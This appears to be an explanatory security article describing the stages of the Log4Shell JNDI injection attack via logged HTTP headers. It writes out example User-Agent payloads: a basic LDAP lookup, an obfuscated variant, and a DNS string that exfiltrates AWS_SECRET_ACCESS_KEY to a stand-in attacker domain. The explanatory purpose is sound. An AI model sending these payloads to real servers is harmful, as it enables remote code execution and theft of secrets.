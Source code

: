 An attacker triggers the exploit by sending a crafted JNDI string in an HTTP header such as the user-agent, or as post form data. The webserver may then log the JNDI string, inadvertantly performing a lookup on untrusted user input data. [Sanitization and validation of input data](https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html) is a best practice, commonly used to prevent attacks like [SQL injection](https://owasp.org/www-community/attacks/SQL_Injection). However, because the logging of an HTTP request may happen before the validation stage of data, it may be difficult to implement with untrusted data like JNDI strings that affect your logging utility.

### Log4shell Attack Stages

Log4shell is a multi-stage attack whereby an attacker sends an initial HTTP request to a web server (stage 1) and if affected, the web server performs the JNDI lookup by referencing a server the the attacker controls to download malicious code (stage 2), and then executes the malicious code (stage 3).

!!! note
   User-Agent strings will be the primary examples in this article, but keep in mind that a JNDI string associated with any header or content that is logged by log4j can trigger the second phase of the attack. I also use an example destination of 127.0.0.1 but in reality this would be any IP address or hostname under the attackers control.

An example of a malicious string in the HTTP request would be setting an HTTP header such as the user-agent, to a string such as a basic example of:

```
"User-Agent: ${jndi:ldap://127.0.0.1/a}"
```

JNDI strings in HTTP requests can be far more complex, such as:

```
"User-Agent: ${${env:FOOBAR:-j}ndi:${env:FOOBAR:-l}dap${env:FOOBAR:-:}//127.0.0.1/a}"
```

This initial HTTP request isn't malicious on its own. Instead, it triggers an affected web server to place an LDAP request to an attacker controlled LDAP server on the internet. The attackers LDAP server then responds with a malicious payload which the server then executes. This could then open a backdoor for the attacker to load a more comprehensive and destructive payload to the server allowing an attacker to further surveil your network, identifying other vulnerable servers, allowing an attacker to gain a larger footprint in your environment.

The other aspect, which is more difficult to control (as described in the Prevention Measures section below), is a JNDI string that uses DNS instead of LDAP. An example of such a string is:

```
"User-Agent: ${jndi:dns://${env:AWS_SECRET_ACCESS_KEY}.attacker-server.com}"
```

In this particular example an attacker sends a JNDI string that causes an affected web server to append an environment variable as a sub-domain to a DNS query directed at a domain/DNS server controlled by the attacker (attacker-server.com). While this doesn't cause a vulnerable server to execute malicious code, it does signify to an attacker that a server is vulnerable and allows for exfiltration of sensitive information. Of course the environment variable actually needs to exist, but it would be easy for an attacker to send a series of HTTP requests with common environment variable names in the hopes of getting some information. Additionally, an attacker could append another sub-domain as an ID specific to the web server they are attacking, to help them keep track of which particular server was vulnerable and any environment variables related to it.

